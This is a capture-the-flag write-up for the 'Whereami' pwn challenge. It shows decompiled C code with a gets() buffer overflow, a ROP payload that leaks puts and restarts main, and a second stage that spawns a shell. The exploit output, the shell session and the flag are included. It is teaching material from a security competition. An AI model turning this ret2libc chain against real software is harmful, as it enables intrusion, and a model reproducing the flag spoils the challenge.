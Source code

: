 # Whereami
`ghidra` output
```c
undefined8 main(void) {
    char local_48 [60];
    __gid_t local_c;

    setbuf(stdout,(char *)0x0);
    local_c = getegid();
    setresgid(local_c,local_c,local_c);
    puts("I\'m so lost.");
    printf("Who are you? ");
    if (0 < counter) {
        exit(1);
    }
    counter = counter + 1;
    gets(local_48);
    puts("I hope you find yourself too.");
    return 0;
}
```
Here there is a buffer overflow vulnerability when they use `gets` to read user input into the buffer. One thing is that there is a global counter variable that gets incremented every time main is called, and the function exits if the counter is greater than 0. When main is first called, the buffer overflow is used to overwrite the return address to output the dynamic address of puts, decrement counter, and jump back to main.
```
payload  = b'A'*72
payload += p64(pop_pad_rbx_rbp_r12_r13_r14_r15)
payload += p64(0)
payload += p64(0xffffffff)
payload += p64(counter + 0x3d)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(add_dword_rbp_minux_3d_ebx)
payload += p64(pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(ret)
payload += p64(exe.symbols['main'])
```
Once the dynamic address of puts is known the libc base address can be calculated. The second time main is called, using the libc base the return address is overwritten with the address of `system` and `"/bin/sh\x00"` is put into rdi.
```
[+] Opening connection to challs.actf.co on port 31222: Done
[*] '/home/runner/nothingtosee/WHEREAMI/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/runner/nothingtosee/WHEREAMI/whereami'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
got puts: 0x404018
plt puts: 0x4010a4
b'PdR\x89\xca\x7f\x00\x00'
leaked puts: 0x7fca89526450
libc address: 0x7fca894a2000
binsh:  0x7fca896565bd
null:   0x7fca894a20b5
execve: 0x7fca895851a0
[*] Switching to interactive mode
I hope you find yourself too.
$ ls
flag.txt
run
$ cat flag.txt
actf{i'd_be_saf3_and_w4rm_if_1_wa5_in_la_5ca5e33ff06f}
```
## Flag: actf{i'd_be_saf3_and_w4rm_if_1_wa5_in_la_5ca5e33ff06f}